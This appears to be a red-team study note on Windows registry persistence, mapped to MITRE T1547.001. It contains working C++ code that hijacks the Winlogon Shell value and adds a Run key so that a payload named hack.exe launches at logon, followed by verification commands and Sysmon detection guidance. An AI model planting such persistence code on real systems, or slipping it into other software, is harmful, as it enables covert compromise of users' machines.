

> [!abstract] Persistence via Windows Registry (Run Keys & Winlogon Shell)
> The Windows Registry is the primary database for OS configuration. Attackers abuse specific registry keys to execute payloads automatically upon system boot or user logon. This note covers two scopes: standard user persistence (`HKCU\Run`) and elevated system persistence (`HKLM\Winlogon\Shell`).
> **MITRE ATT&CK Mapping:** [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)

## System-Level Persistence: Winlogon Shell Hijack

> [!info] How Winlogon Shell Hijacking Works
> The `Winlogon` key is responsible for the interactive logon process. The `Shell` value tells Windows what user interface to load when a user logs in (by default, `explorer.exe`). 
> If an attacker modifies this value to `explorer.exe, malware.exe`, Windows will launch the normal desktop AND the malicious payload simultaneously. 
> 
> **Requirements:** Modifying `HKLM` requires Administrator privileges. Additionally, because `Winlogon` runs very early in the boot process, the malicious binary should ideally be placed in a trusted system directory like `C:\Windows\System32\` to avoid path issues and ensure it runs before user environment variables are fully loaded.



> [!example]+ Code: Winlogon Shell Hijack (Admin Privileges Required)
> This code modifies the system-wide `Shell` value. The binary specified here must be placed in `C:\Windows\System32\` for best results.
> ```cpp
> #include <windows.h>
> #include <string.h>
> 
> int main(int argc, char* argv[]) {
>   HKEY hkey = NULL;
> 
>   // shell
>   const char* sh = "explorer.exe,hack.exe";
> 
>   // startup
>   LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
>   if (res == ERROR_SUCCESS) {
>     // create new registry key
> 
>         RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
>     RegCloseKey(hkey);
>   }
> 
>   return 0;
> }
> ```

## User-Level Persistence: Run Key

> [!tip] HKCU Run Key
> The `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` key is commonly used for standard user persistence. Any executable listed here will run when that specific user logs in. This does not require Administrator privileges, making it ideal for standard user compromise.

> [!example]+ Code: Current User Run Key
> This code adds a registry value that will execute `hack.exe` when the current user logs in.
> ```cpp
> #include <windows.h>
> #include <string.h>
> 
> int main(int argc, char* argv[]) {
>   HKEY hkey = NULL;
>   // malicious app
>   const char* exe = "C:\\Users\\John\\Downloads\\hack.exe"; //use your hack.exe location here
> 
>   // startup
>   LONG result = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
>   if (result == ERROR_SUCCESS) {
>     // create new registry key
>     RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
>     RegCloseKey(hkey);
>   }
>   return 0;
> }
> ```

---

## Verification & Detection

> [!success] Verifying Persistence (PowerShell)
> To ensure the registry key was successfully created or modified, you can use the `Get-Item` (`gi`) cmdlet.
> 
> **Checking Winlogon Shell:**
> ```powershell
> gi HKLM:/Software/Microsoft/Windows nt/CurrentVersion/Winlogon
> ```
> *Look for the `Shell` property. It should say `explorer.exe, hack.exe` instead of just `explorer.exe`.*
> 
> **Checking User Run Key:**
> ```powershell
> gi HKCU:/Software/Microsoft/Windows/CurrentVersion/Run
> ```

> [!warning] Defensive Detection (Sysmon Event ID 13)
> Defenders using Sysmon can detect this by monitoring **Event ID 13** (Registry Value Set). 
> - **Rule of thumb:** Alert on any modification to `HKLM\...\Winlogon\Shell` that contains a comma or points to an executable outside of `C:\Windows\System32\`.
> - Alert on new entries in `HKCU\...\Run` or `HKLM\...\Run` that point to user-writable directories like `Downloads` or `AppData`.

